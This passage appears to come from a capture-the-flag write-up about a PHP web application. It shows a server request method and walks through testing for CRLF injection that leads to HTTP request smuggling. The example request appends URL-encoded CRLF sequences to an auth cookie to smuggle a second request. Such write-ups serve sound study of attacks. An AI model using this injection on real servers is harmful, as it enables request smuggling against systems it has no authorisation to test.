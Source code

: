After that, it calls static method `request`, which sends the request based on the context via PHP function `file_get_contents`:

```php
class Server {
    [...]
    // Server requests
    private static function request(mixed $context, string $url, bool $json = true): mixed {
        $response = file_get_contents($url, false, $context);
        [...]
        try {
            $output = json_decode($response, flags: JSON_THROW_ON_ERROR);
        } catch (JsonException $e) {
            throw new NetworkException("Failed to decode response from $url: $response");
        }
        return $output;
    }
    [...]
}
```

Hmm... Can we do CRLF injection via PHP function `stream_context_create`? Let's test it locally via `docker compose up --build -d`!

> Note: Try to modify `frontend/Dockerfile`'s PHP composer installation with the following. Otherwise composer won't be installed due to the time to install it.
> ```bash
> RUN curl -sS https://getcomposer.org/installer | php -- --install-dir=/usr/local/bin --filename=composer && composer update
> ``` 

After logging in and creating a new note, we can send the following request to test the **CRLF injection to HTTP request smuggling**:

```http
GET /note.php?id=<note_id_here> HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNpdW5hbSIsImlhdCI6MTczNTYzMzE1NCwiZXhwIjoxNzM1NjM2NzU0fQ.Dfa8LvzQclcK3C-bUOPt5UdGwYBP5TlXWB5B4tYqv0kTtbj6fPIt3uuQ_dpIklTSmEY7TNly2i-8U9fyUoJnDKS84Qv7Ps5e3Be9pjwwqxKbS5F6V-P9Ja39xDODmYP45gapHQ6v7nlt6krArvhSZLoXPHOICoJBfrJTGbTeii9G2OUIJrGDxZn4UhmUlMrdvA198ZxMROX9--SnoQIZz7DL7Hyapx2a95mWDvLqlYIkOG67_9MKCKOrshMS_ioXYbRRjb-gSyydje76x44yGabHZQTPtGUr_MW79tSJ-dWswMZ6Vatjj6UOZjpNsBQ4gWL7a9PL8tCwvi15t5ua_Q%0d%0a%0d%0a


```

Smuggled request:

```
[other_headers_here]


```

> Note: We need to URL encode the CR and LF characters. PHP will then URL decode them.
